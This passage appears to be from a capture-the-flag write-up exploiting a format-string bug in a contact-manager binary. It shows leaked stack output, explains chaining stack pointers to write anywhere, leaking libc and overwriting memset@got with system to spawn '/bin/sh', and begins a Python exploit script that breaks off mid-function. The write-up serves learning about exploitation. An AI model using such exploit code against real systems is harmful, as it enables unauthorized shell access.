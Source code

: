 ```
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 4
Contacts:
    Name: BAR1
    Length 100
    Phone #: 0
    Description: 9B24008-F77724E0-F7771FF4-0-0-FFDE40D8
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>>
```

We used the same trick as in [ekoparty's echoes binary](https://ctf-team.vulnhub.com/eko-party-pre-ctf-2015-echoes/), selecting a stack address (actually a saved stack frame pointer) which points to another stack address, which we can then use to write out an address on the stack. Finally, use that third format string argument to write anything anywhere. 

We then use the leak to determine libc's base address, add the offset for system, and finally overwrite memset@got with system. Then, once we delete an element with name `/bin/sh`, we in fact call `system('/bin/sh')` and we win.

Without further ado:

```python
from socket import *
import struct, telnetlib, re, sys, time

def readtil(delim):
    buf = b''
    while not delim in buf:
      buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)


def write(x, i):
    # first, leak address to which we'll write ($30) so that we can align the writes to $30
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('ZZZZ%18$.08xBBBB')
    readtil('>>> ')
    sendln('4')
```